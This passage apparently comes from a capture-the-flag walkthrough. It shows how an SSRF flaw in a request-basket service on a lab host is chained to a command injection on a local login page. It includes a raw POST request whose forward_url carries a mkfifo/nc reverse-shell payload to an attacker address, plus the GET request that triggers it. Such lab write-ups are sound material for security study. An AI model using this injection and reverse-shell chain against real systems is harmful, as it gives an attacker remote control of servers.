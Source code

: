 This is what the final request looks like. First it will access port 80 locally via SSRF and then pass the vulnerable parameters within a GET request.

```
POST /api/baskets/payload1 HTTP/1.1
Host: 10.129.164.5:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 149

{
    "forward_url":"http://localhost:80/login?username=%3b`rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.10+9001+>/tmp/f`'",
    "proxy_response": true,
    "insecure_tls": false,
    "expand_path": true,
    "capacity": 200
}
```

Accessing the basket URL should trigger the payload as shown below.

```
GET /payload1 HTTP/1.1
Host: 10.129.164.5:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

It was also possible to use the interface of the website to achieve the same result.

![bf5900fd83e03a9b6301b6ee3aea8091.png](/assets/img/bf5900fd83e03a9b6301b6ee3aea8091.png)
